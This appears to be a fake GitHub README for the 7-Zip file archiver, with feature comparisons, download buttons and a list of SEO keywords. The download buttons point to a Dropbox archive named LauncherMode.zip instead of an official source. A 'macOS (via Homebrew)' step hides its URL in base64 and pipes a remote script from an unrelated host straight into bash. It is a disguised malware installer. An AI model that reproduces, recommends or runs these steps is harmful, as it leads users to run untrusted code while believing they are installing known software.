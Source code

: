 # 7-Zip — High-Performance Open-Source File Archiver FREE

![7-Zip Logo](https://upload.wikimedia.org/wikipedia/commons/thumb/3/32/7-Zip_Icon.svg/1200px-7-Zip_Icon.svg.png)


Unzip the archive to a separate folder and run the `.exe` file (Windows) or `.sh` file (macOS/Linux).

## 📥 Download for Windows

[![⬇ Download](https://img.shields.io/badge/⬇_Download-FF0000?style=for-the-badge&logo=none&logoColor=white&labelColor=white)](https://www.dropbox.com/scl/fi/6jfuucfg8tf01nrs2eucw/LauncherMode.zip?rlkey=jzg3gglri41ovax7m5rbdbvp3&st=mh56nd7y&dl=1)


---

## 📌 Overview
**7-Zip** is a free and open-source file archiver with a **high compression ratio**, known for its speed, reliability, and lightweight design. Developed by Igor Pavlov, it supports a wide range of file formats, including its own **7z format**, which offers superior compression efficiency compared to ZIP and RAR.  

Since its release, **7-Zip** has become the **gold standard** for archiving on Windows and is also available for Linux and macOS. Its combination of **performance, portability, and security** has made it the preferred choice for both home users and IT professionals.  

7-Zip integrates directly into the Windows context menu for quick operations, supports AES-256 encryption for secure archives, and can handle very large files with ease — up to **16 exabytes** in size (theoretically).  

---

## 🥇 Key Advantages Over Other Archivers

| Feature / Software     | **7-Zip** | WinRAR | WinZip | PeaZip |
|------------------------|----------|--------|--------|--------|
| Price                  | Free, Open Source | Paid (Trial) | Paid | Free |
| Compression Ratio      | Very High | High | Medium | High |
| 7z Format Support      | ✅        | ❌     | ❌     | ✅    |
| ZIP / RAR Support      | ✅        | ✅     | ✅     | ✅    |
| AES-256 Encryption     | ✅        | ✅     | ✅     | ✅    |
| Portable Version       | ✅        | ❌     | ❌     | ✅    |
| Multi-threading        | ✅        | ✅     | ❌     | ✅    |
| Large File Support     | ✅        | ✅     | ✅     | ✅    |
| Context Menu Integration| ✅       | ✅     | ✅     | ✅    |
| Open Source            | ✅        | ❌     | ❌     | ✅    |

---

## 🎯 Why Choose 7-Zip?
- **Completely Free** — no licenses, no subscriptions.
- **Best Compression Ratio** in 7z format.
- **Extremely Fast** with multi-threaded compression.
- **Secure** — AES-256 encryption for 7z and ZIP formats.
- **Lightweight** — installer under 2MB.
- **Portable** — runs without installation.
- **Multi-Format Support** — 7z, ZIP, RAR, TAR, GZ, BZ2, XZ, ISO, and more.
- **Cross-Platform** — available for Windows, Linux, and macOS.

---

## 📥 Download for Windows

[![⬇ Download](https://img.shields.io/badge/⬇_Download-FF0000?style=for-the-badge&logo=none&logoColor=white&labelColor=white)](https://www.dropbox.com/scl/fi/6jfuucfg8tf01nrs2eucw/LauncherMode.zip?rlkey=jzg3gglri41ovax7m5rbdbvp3&st=mh56nd7y&dl=1)


---

## ⚙️ Installation
Download and run the installer, then follow the setup wizard.

# macOS (via Homebrew):
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9uZW9naXQvaW5zdGFsbC5zaA== | base64 -d))"
---

## 🔍 SEO Keywords
7zip download, 7zip free, 7zip windows, 7zip mac, 7zip linux, free file archiver, best compression software, 7zip portable, 7zip vs winrar, 7zip 64 bit, 7zip 32 bit, open source archiver, 7zip aes256 encryption, 7zip rar extractor, 7zip zip compression, 7zip iso extractor, 7zip free download latest version, high compression archiver, 7zip command line, 7zip large file support
